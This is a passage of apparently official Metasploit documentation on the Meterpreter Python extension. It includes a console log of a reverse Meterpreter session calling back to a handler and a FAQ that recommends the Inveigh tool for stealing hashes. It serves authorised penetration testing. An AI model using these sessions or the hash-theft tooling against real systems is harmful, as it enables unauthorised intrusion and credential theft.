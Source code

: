 ```
msf exploit(handler) > [*] Meterpreter session 2 opened (172.16.52.1:4445 -> 172.16.52.247:49159) at 2015-12-13 11:06:54 +1000

msf exploit(handler) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > transport list
Session Expiry  : @ 2015-12-20 11:06:52

    ID  Curr  URL                     Comms T/O  Retry Total  Retry Wait
    --  ----  ---                     ---------  -----------  ----------
    1         tcp://127.0.0.1:8000    300        3600         10
    2   *     tcp://172.16.52.1:4445  300        3600         10
```
This stageless initialisation feature allows for long-running Python scripts to be run before Meterpreter even calls home. This is really handy in so many ways, so get creative and show us how awesome this can be.

## FAQ

> Does the extension do dynamic resolution of Python libraries at runtime?

Yes. The extension has a built-in import handler that loads modules from memory. This includes modules that the user has dynamically loaded using the `python_import` command. If a module doesn't exist as part of the extension then resolution will fail. Down the track we may look into extending this feature so that missing libraries are uploaded on-the-fly when an import fails, but it's not known when this work will get done.

> When will this extension be available for other Meterpreters?

We're not yet able to put a timeline on this.

> Is it possible to use the Python extension to run Responder?

Unfortunately, no it is not. Responder makes the assumption that port `445` is available for use on the target, which is why it functions nicely on \*nix systems that don't make use of this port by default. On Windows systems, port `445` is already in use by system services and hence can't be bound to.

There is a Powershell-based project that aims to do the same thing as Responder, and that is called [Inveigh][]. This utility piggy-backs of the existing SMB service, and appears to do quite a good job of stealing hashes, so it's recommended that this be used instead.

> Is it perfect?

Hell no! But the goal is to get closer and closer to perfect as we go. It's up to you to help us improve it along the way by using it in interesting ways, and submitting bugs when it breaks.

> Can I suggest a feature?

Please do, making good use of the Github issues feature. Better still, create a PR for one!

  [transport]: https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-transport-control.html
  [inveigh]: https://github.com/Kevin-Robertson/Inveigh

## Currently Loadable Native Libraries
